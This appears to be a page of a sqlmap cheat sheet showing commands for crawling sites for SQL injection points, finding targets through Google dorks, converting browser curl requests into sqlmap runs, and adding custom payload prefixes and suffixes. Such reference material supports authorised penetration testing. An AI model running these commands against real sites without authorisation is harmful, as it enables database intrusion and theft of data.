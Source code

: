 ## Automation & Discovery

### Automatic Target Discovery
```bash
# Crawl website for injection points
sqlmap -u "http://example.com" --crawl=2

# Test forms automatically
sqlmap -u "http://example.com/login.php" --forms

# Google dork integration
sqlmap -g "inurl:php?id="

# Batch processing with crawling
sqlmap -u "http://example.com" --crawl=3 --batch --forms
```

## Request Import & Conversion

### From Browser/Curl to SQLMap
```bash
# Copy request from browser as curl, save to file, then:
# Replace 'curl' with 'sqlmap' in the command

# Example conversion:
curl -X POST "http://example.com/login" -d "user=admin&pass=test" -H "Cookie: session=abc"
# becomes:
sqlmap -X POST "http://example.com/login" -d "user=admin&pass=test" -H "Cookie: session=abc"

# Or save curl command to file and use:
sqlmap -r request_from_curl.txt
```

## Payload Customization

### Payload Structure
SQLMap payloads consist of two parts:
- **Attack Vector**: The actual injection string
- **Boundaries**: Prefix and suffix that wrap the vector to make it a valid query

### Custom Payload Options
```bash
# Add custom prefix to payloads
sqlmap -r request.txt --prefix="')"

# Add custom suffix to payloads
sqlmap -r request.txt --suffix="-- -"

# Show payloads in response (verbose)
sqlmap -r request.txt -v 3

# Combine prefix and suffix
sqlmap -r request.txt --prefix="')" --suffix="-- -"
```
